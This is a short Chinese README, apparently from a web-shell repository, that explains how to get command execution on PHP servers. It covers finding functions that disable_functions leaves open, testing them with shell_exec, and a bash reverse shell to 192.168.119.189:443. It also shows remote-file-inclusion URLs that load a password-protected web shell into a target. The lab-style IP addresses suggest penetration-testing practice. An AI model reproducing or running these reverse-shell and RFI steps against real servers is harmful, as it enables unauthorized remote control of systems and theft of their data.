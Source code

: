 # 使用方法
1. 先通过获取 phpinfo 信息，确定哪些函数是被 disable_funtion 禁止
2. 对比`PHP中可执行系统命令的函数`，找到一个可以用于**执行系统命令**的函数
3. 通过下面的简单命令，确认该函数确实可以执行：
```
<?php
echo "php function test.";
# shell_exce 修改成测试函数
$output = shell_exec('ls -lart');
echo "<pre>$output</pre>";
?>

```
4. 确认执行 shell 的函数后，可结合`nc`、`bash`、`php`等方式反弹 shell，详见[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php)。
例如，我之前遇到使用 nc 不能反弹回 shell，于是尝试了直接使用 bash 反弹 shell 就成功了：
```
<?php
echo "php function test";
$output = shell_exec("bash -i >& /dev/tcp/192.168.119.189/443 0>&1");
echo "<pre>$output</pre>";
?>
```

# PHP中可执行系统命令的函数

- exec — 执行一个外部程序
- passthru — 执行外部程序并且显示原始输出
- shell_exec — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。
- system — 执行外部程序，并且显示输出
- [popen](https://www.php.net/manual/zh/function.popen.php) - 打开一个指向进程的管道，该进程由派生给定的 command 命令执行而产生。
- proc_open — 执行一个命令，并且打开用来输入/输出的文件指针。
`popen`和`proc_open`现在其他 php-shell 中普遍用的较少，可以重点留意一下
# big-shell.php
Usage
RFI:
- 1. `http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt`，then input the passwd `pass`
- 2. 这时候因为是 RFI 包含的此大马，所以页面会自动重载为section.php，需要手动再次进入：`http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt`，然后就可以看到大马的页面
- 3. 进入fbrowser 需要手动输入：`http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt&act=fbrowser`
